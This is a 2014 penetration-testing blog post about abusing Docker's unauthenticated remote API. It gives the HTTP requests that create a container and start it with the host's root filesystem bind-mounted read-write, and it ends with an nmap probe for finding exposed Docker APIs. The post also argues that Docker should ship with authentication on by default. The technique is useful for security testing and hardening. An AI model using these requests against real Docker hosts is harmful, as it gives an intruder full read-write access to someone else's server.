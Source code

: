 ```yaml
---
title: "Abusing Dockers Remote APIs"
date: 2014-09-09T00:39:00.000-07:00
draft: false
type: posts
categories: 
- API,docker,pentest,remote
---
```

# Abusing Dockers Remote APIs

<br/>

<br/>
### Forewords: is this post about a security vulnerability?

Ultimately it's not. This is a short note on how to exploit a somehow under-documented feature in the [Docker](https://www.docker.com/) remote APIs, since I did not manage to find clear guidance elsewhere and had to experiment with it myself. The reason for sharing is to save you time during the next pentest. That said, do I think this is bad? Yes, I do, as I will explain later on.  
  
**EDIT:**  It turns out maybe I wasn't so wrong worrying about this.  
See [this announcement](https://groups.google.com/forum/#!msg/docker-announce/aQoVmQlcE0A/smPuBNYf8VwJ).  
  

### So, what is this about?

TL;DR; The Docker's Remote APIs trivially allow anyone with access to them to obtain **access to the file system of the host**, by design, and are unauthenticated (but disabled) by default.

  

Docker is a container-based platform for application "shipment", but to be fair, [the official what is Docker page](https://www.docker.com/whatisdocker/) does a better job at explaining what this is all about. Docker is all the rage in these days and if you have never heard of it you should really look it up. It's quite likely to show up in one of your next penetration tests since companies seem to be experimenting with it quite extensively.

  

Docker is usually managed via a command line tool, which **connects to the Docker server via a Unix socket**. Access is restricted to the root user by default or to an aptly named Docker group, at least on the [Ubuntu packages](https://docs.docker.com/installation/ubuntulinux/) I've experimented with. So far, so good (sort of, but I don't really have strong arguments here).

  

This is of course not very convenient if you are working in any environment but your bedroom, so the helpful devs have provided a RESTful API which can be bound to any HTTP port. It is **not enabled by default**, which is something worth stressing, but can be turned on via a flag (\-H tcp://IP\_ADRESS:PORT). [IANA](http://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml?search=docker) has assigned ports 2375 and 2376 to the cleartext and SSL protected versions of the APIs respectively.

  

Looking at the [API reference](https://docs.docker.com/reference/api/docker_remote_api/) you'll see the APIs support all the operations you'd expect in a VM-management tool. By default there is no authentication so all you need is finding the target (which you can fingerprint by hitting the /version endpoint) - unless, of course, the admin has enabled some other kind of protection. The simplest way to do so is to use Docker's [tlsverify feature](https://docs.docker.com/articles/https/), and everyone should do that. However, given the process does not work on OsX, guess how many programmer's laptops you are going to pop?

  

### Accessing the host file system

The trick is ultimately quite simple: you just start a new container (think of it as a VM and you won't be far off) with a special configuration, then access it. First, create a container on the host (I'm trying to keep the call small here):

  

POST /containers/create?name=cont\_name HTTP/1.1

Content-Type: application/json

    {

      "Cmd": \["/bin/bash"\],

      "Image":"ubuntu",

    }

  

You'll get back an ID for your container. Now, start the container: note that in my experiment I was able to make these "Binds" only work once, the first time a container is started.

  

POST /containers/$_ID_/start

Content-Type: application/json

  

 {

  "Binds":\["/:/tmp:rw"\]

 }

  

**Now you have a running container where the /tmp directory maps back to the / of the host.** You have to login to the container to go wild on the host, but since you don't have direct access to said poor host, you need to have SSHd running on your container. The default Ubuntu image won't have SSHd up, so you'll have to use a different image (consider [baseimage-docker](http://phusion.github.io/baseimage-docker/)) or tweak around with the cmd - this very last part is left as an exercise for the reader... or scream at me enough in the comments and I'll come up with something. Alternatively, you could be able to use the copy endpoint ([documentation of the copy endpoint](https://docs.docker.com/reference/api/docker_remote_api_v1.14/#copy-files-or-folders-from-a-container)) but I've not experimented with that.

  

### Why this is worth writing about, or why I don't like un-authed admin interfaces

As I said at the beginning of the post, this writeup is mostly a time saver for those dealing with Docker during a penetration test. However, there is something that I don't like in the way Docker has gone about designing these APIs: the lack of any default auth entirely.

  

There are of course various reasons why you would ship such a critical feature with no authentication to be seen: time to market, the fact that after all it is disabled by default, or more likely the will to attain segregation of duties. Designing a secure authentication system is complicated, error prone and difficult, and ultimately not the role of an API. Delegating it is a better idea than botching it, so that it is clear where things go wrong.

  

I beg to disagree, and I'd have expected better from a company that produced [such a well thought discussion on the security issues with running SSH on a container](http://jpetazzo.github.io/2014/06/23/docker-ssh-considered-evil/). I'm going to argue that there is a **huge gap between having a clearly horrible authentication system and** **nothing at all.** The sad truth, as anyone who has done any pentest in his career will tell, is that the vast majority of the end users will run with whatever was shipped out of the box. Security people cheered when Oracle started to require users to set passwords during installation instead of setting default ones (ok ok, that's a long story), and the experience of the [Internet Census](http://internetcensus2012.bitbucket.org/paper.html) tells us how easy it is to forget to change that password, or to setup that auth.

  

Of course, security minded admins will set up things correctly and invest all the time needed to configure a secure environment. But what about the others? Was it so difficult to require a Basic Auth-powered password at startup?

  

Friction (as in, anything that makes your product harder to use) is bad, but pwned users are worse.

  
_Bonus: Here is a simple nmap probe for the Docker APIs._  
  

##############################NEXT PROBE##############################

\# Queries Docker APIs for the /version url containing version information.

#

Probe TCP docker q|GET /version HTTP/1.1\\r\\n\\r\\n|

rarity 7

ports 2375

sslports 2376

  

match docker m|.\*{"ApiVersion":"(.\*)","Arch".\*"GitCommit":"(.\*)","GoVersion".\*"Os":"(.\*)","Version":"(.\*)"}.\*| p/Docker remote API/ v/$1/ o/$3/ i/GitCommit:$2 DockerVersion:$4/

#### [Source](http://blog.nibblesec.org/feeds/7063128227393639643/comments/default)

<br/>
---
